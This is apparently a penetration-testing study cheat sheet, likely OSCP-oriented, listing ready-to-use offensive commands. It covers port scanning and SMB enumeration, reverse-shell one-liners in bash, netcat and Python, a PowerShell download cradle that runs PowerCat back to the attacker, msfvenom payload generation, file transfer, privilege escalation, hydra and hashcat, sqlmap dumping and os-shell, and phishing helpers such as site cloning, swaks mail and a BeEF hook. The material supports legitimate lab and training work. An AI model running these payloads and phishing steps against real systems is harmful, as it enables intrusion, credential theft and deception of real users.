

---
tags:
  - cheatsheet
  - commands
  - reference
  - index
---

# 🧰 Command Cheat Sheet

> [!tip] How placeholders work
> Replace anything in `<angle brackets>` with your value. Better: set variables once and reuse:
> ```bash
> export IP=10.10.10.10        # the target
> export LHOST=10.10.14.5      # YOUR vpn IP (run: ip a | grep tun0)
> export LPORT=4444            # your listener port
> ```



---

## 🔍 1. Scanning & Enumeration

> [!example] Nmap
> ```bash
> sudo nmap -p- --min-rate 5000 -oA allports $IP      # all TCP ports, fast
> sudo nmap -p 22,80,445 -sCV -oA detail $IP          # versions + default scripts
> sudo nmap -sU --top-ports 20 -oA udp $IP            # top UDP ports
> sudo nmap -p- -Pn $IP                                # -Pn = skip ping (host blocks ICMP)
> ```

> [!example] Web directory brute force
> ```bash
> gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
> gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,txt,html
> feroxbuster -u http://$IP -w /usr/share/wordlists/dirb/common.txt   # recursive
> ```

> [!example] SMB
> ```bash
> smbclient -L //$IP/ -N                # list shares, no password (null session)
> smbclient //$IP/share -N              # connect to a share
> enum4linux -a $IP                     # everything: users, shares, OS, policy
> crackmapexec smb $IP -u '' -p ''      # null auth check
> rpcclient -U '' -N $IP                # RPC session (enumdomusers, queryuser, etc.)
> smbmap -H $IP -u '' -p ''             # share permissions at a glance (R/W per share)
> ```
> 🔗 `smbclient //$IP/share -c 'put file'` (no `-N`/`-U`) defaults to your **local Kali username** — if that account doesn't exist on the target, you'll get `NT_STATUS_ACCESS_DENIED` even with the right target creds intended. Always pass `-N` for anonymous or `-U user%pass` explicitly.

> [!example] Other services
> ```bash
> ftp $IP                               # try user: anonymous, pass: anything
> snmpwalk -v2c -c public $IP           # SNMP (community string 'public')
> dig axfr @$IP <domain>                # DNS zone transfer
> ```

> [!example] Remote Desktop (RDP)
> ```bash
> xfreerdp /v:$IP /u:<user> /p:<pass>              # standard connection
> xfreerdp /v:$IP /u:<user> /p:<pass> /cert:ignore  # skip cert warnings
> xfreerdp /v:$IP /u:<user> /p:<pass> /clipboard    # share clipboard (paste text/code in)
> xfreerdp /v:$IP /u:<user> /p:<pass> /drive:kali,/home/user   # share a local folder as \\tsclient\kali
> xfreerdp /v:$IP /u:<user> /p:<pass> /dynamic-resolution /gfx:AVC420   # smoother/faster rendering
> rdesktop $IP -u <user> -p <pass>                  # older alternative
> ```
> 🔗 `rdesktop` often **fails** against a non-domain-joined Windows target with NLA enabled (the default on Windows 11) — use `xfreerdp` instead, it handles that combination correctly.

---

## 🐚 2. Reverse Shells (getting a shell back)

> [!tip] Always start your listener FIRST, then trigger the payload.
> ```bash
> nc -lvnp $LPORT                       # your listener (catch the shell here)
> ```

> [!example] Common payloads (run on the TARGET)
> ```bash
> # Bash
> bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
>
> # Netcat (mkfifo, works when -e is disabled)
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $LHOST $LPORT >/tmp/f
>
> # Python
> python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("'$LHOST'",'$LPORT'));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
> ```
> 🔗 Generate any shell at [revshells.com](https://www.revshells.com) (offline copy worth saving!)

> [!success] Stabilise your shell after catching it
> ```bash
> python3 -c 'import pty;pty.spawn("/bin/bash")'   # on target
> # then press Ctrl+Z (background it)
> stty raw -echo; fg                                # on your kali
> export TERM=xterm                                 # on target (enables clear, arrows)
> ```

> [!example] PowerShell download cradle + PowerCat (Windows)
> ```bash
> # On Kali — serve powercat.ps1 + catch the shell
> cd ~/Desktop/homebase/powercat && python3 -m http.server 80
> nc -nvlp 4444
> ```
> ```powershell
> # Runs on the TARGET — pulls powercat.ps1 from Kali, then calls back
> powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<LHOST>:8000/powercat.ps1');powercat -c <LHOST> -p 4444 -e powershell"
> ```
> 🔗 This is the payload embedded in both the [[Leveraging Microsoft Word macros]] and [[Obtaining code execution via Windows library files]] client-side vectors — `IEX(...).DownloadString(...)` fetches PowerCat into memory (no file dropped to disk), then `powercat -e powershell` spawns the reverse shell. For a VBA macro, the whole line needs to be **base64-encoded as UTF-16LE** first (see [[🔣 Encoding Reference]]) since VBA can't paste a 255+ char literal directly.

---

## 🛠️ 3. Payload generation (msfvenom)

> [!example]
> ```bash
> # Linux reverse shell ELF
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o shell.elf
>
> # Windows reverse shell EXE
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
>
> # PHP web shell (for file upload / LFI)
> msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell.php
> ```

---

## 📤 4. Transferring files to the target

> [!example] Serve from Kali, grab from target
> ```bash
> # On Kali (serve current folder on port 80)
> python3 -m http.server 80
>
> # On target (Linux)
> wget http://$LHOST/shell.elf -O /tmp/shell.elf
> curl http://$LHOST/shell.elf -o /tmp/shell.elf
>
> # On target (Windows)
> certutil -urlcache -f http://%LHOST%/shell.exe shell.exe
> powershell -c "Invoke-WebRequest http://LHOST/shell.exe -OutFile shell.exe"
> ```

---

## ⬆️ 5. Privilege escalation (quick wins)

> [!example] Linux
> ```bash
> sudo -l                               # what can I run as root? (check GTFOBins!)
> find / -perm -4000 2>/dev/null        # SUID binaries
> id; uname -a; cat /etc/crontab        # who am I, kernel, scheduled jobs
> wget http://$LHOST/linpeas.sh -O /tmp/l.sh; chmod +x /tmp/l.sh; /tmp/l.sh
> ```
> 🔗 Look up any binary at [GTFOBins](https://gtfobins.github.io)

> [!example] Windows
> ```cmd
> whoami /priv                          :: check privileges (SeImpersonate = juicy)
> systeminfo                            :: OS version for kernel exploits
> ```
> 🔗 Look up binaries at [LOLBAS](https://lolbas-project.github.io)

---

## 🔓 6. Password attacks

> [!example]
> ```bash
> hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"
> hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt      # -m 0 = MD5
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> ```
> 🔗 Identify a hash type: `hashid '<hash>'` · hashcat mode list at [hashcat.net](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

## 🗄️ 7. SQL Injection (sqlmap)

> [!example]
> ```bash
> sqlmap -u "http://$IP/page?id=1" --batch --dbs             # GET param, list databases
> sqlmap -r request.txt --batch --dbs                        # from a saved Burp request (POST/cookies/headers intact)
> sqlmap -u "http://$IP/page?id=1" -D dbname --tables         # tables in a DB
> sqlmap -u "http://$IP/page?id=1" -D dbname -T users --dump # dump a table
> sqlmap -u "http://$IP/page?id=1" --os-shell                 # attempt OS-level shell
> sqlmap -u "http://$IP/page?id=1" --level=5 --risk=3         # more aggressive detection
> sqlmap -u "http://$IP/page?id=1" --tamper=space2comment     # WAF/keyword-filter bypass
> ```
> 🔗 `-r request.txt` is almost always the more reliable option over `-u` for anything beyond a trivial GET — save the request from Burp (right-click → Copy to file) so cookies, headers, and POST body all travel with it.

---

## 🔎 8. Recon & fingerprinting extras

> [!example] Output parsing + fingerprinting
> ```bash
> nmap -oA scan $IP && xsltproc scan.xml -o scan.html   # save nmap in all formats, render a browsable HTML report
> whatweb -a 3 http://$IP                                # CLI Wappalyzer equivalent (no GUI needed)
> ffuf -u http://$IP/FUZZ -w wordlist.txt -mc 200,301,403  # faster gobuster alternative
> dig any $IP; dig axfr @$IP <domain>; dig +short $IP    # DNS enum one-liners
> snmp-check $IP; snmpbulkwalk -c public -v2c $IP .      # SNMP alternatives to snmpwalk
> exiftool -r -a -u -csv *.pdf > metadata.csv            # bulk/recursive metadata extraction to CSV
> ```

> [!example] TLS / headers without a third-party site
> ```bash
> curl -I https://$IP                     # response headers only
> curl -sI https://$IP | grep -i strict   # check for a specific header (HSTS shown)
> testssl.sh $IP                          # full TLS/cipher audit, offline
> sslscan $IP                             # faster, lighter TLS overview
> openssl s_client -connect $IP:443 -showcerts   # raw cert chain inspection
> ```
> 🔗 SSL Labs / securityheaders.com / Netcraft can't reach lab or internal IPs — these are the local equivalents for OSCP targets.

> [!example] OSINT one-liners
> ```bash
> gitleaks detect --source ./repo -v      # scan a cloned repo for leaked secrets
> shodan search 'org:"Target Inc"'        # requires `shodan init <API-KEY>` first
> whois -h whois.iana.org $DOMAIN         # whois via a specific server
> curl https://rdap.org/domain/$DOMAIN    # RDAP — WHOIS's structured-JSON successor
> searchsploit <service> <version>        # local Exploit-DB search
> ```

---

## 🎣 9. Phishing & client-side helpers

> [!example]
> ```bash
> wget --mirror --convert-links --page-requisites --no-parent https://target.com   # clone a site keeping working relative links
> swaks --to victim@target.com --from you@yours.com --server $SMTP_IP --header "Subject: ..." --body "..."   # send mail from the CLI
> dnstwist target.com                     # generate + check lookalike/typosquat domains
> idn2 xn--pple-43d.com                   # decode a punycode homograph domain — see [[🔣 Encoding Reference]]
> beef-xss                                # start BeEF; default hook: http://$LHOST:3000/hook.js, UI on :3000/ui/panel
> ```

---

## Related
- [[📖 Start Here — Beginner Guide]]
- [[🔣 Encoding Reference]]
- [[⚠️ Common Errors & Troubleshooting]]

> [!info] Section: [[🏠 Home]]
